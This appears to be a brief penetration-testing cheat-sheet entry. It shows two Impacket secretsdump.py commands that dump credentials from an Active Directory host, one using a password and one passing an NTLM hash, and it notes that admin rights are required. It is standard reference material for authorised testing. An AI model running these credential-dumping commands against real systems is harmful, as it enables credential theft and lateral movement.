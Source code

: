 >[!Note]
>The following commands need credentials of an administrative user!

Dump credentials with *secretsdump.py*:
```bash
secretsdump.py <AD-FQDN>/<user>:'<password>'@<target-ip>
```
Using NTLM-hash:
```bash
secretsdump.py <user>@<target-ip> -hashes <NTLM-hash>
```